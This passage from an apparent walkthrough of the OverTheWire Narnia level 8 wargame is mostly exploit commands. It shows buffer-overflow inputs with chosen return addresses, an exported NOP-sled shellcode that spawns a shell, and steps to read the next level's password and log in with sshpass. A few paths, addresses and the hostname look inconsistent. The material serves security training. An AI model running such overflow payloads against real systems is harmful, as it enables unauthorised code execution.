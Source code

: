 ry exploiting the buffer overflow with specific addresses:
```bash
./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA\x49\xd5\xff\xffAAAA\x66\xd5\xff\xff")
```
<img src="./img/Screenshot 2024-10-13 145544.png"></img>
Try another address combination:
```bash
./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA\x49\xd5\xff\xffAAAA\x90\xd5\xff\xff")
```
Explanation:

The shellcode needs to be placed carefully in memory, with specific adjustments based on the offset and address calculations. By understanding the memory locations (like `0xffffd555`), the buffer is manipulated using the logic of subtracting values (e.g., `0x55 - 12 = 0x49`), ensuring we control the return address properly. The shellcode itself is a series of `NOP` instructions (`\x90`) followed by executable code that grants shell access.

Export the shellcode to an environment variable:
```bash
export SHELLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81'
```
<img src="./img/Screenshot 2024-10-13 145210.png"></img>
You should get a shell after executing the correct exploit. Once you have access to the shell, retrieve the password for the next level:
```bash
cat /etc/narnia_pass/narnia8
```
Move to next level 9:
```bash
sshpass -p `cat narnia9` ssh narnia9@narnia.overthewire.labs.org -p 2226
```
```bash
```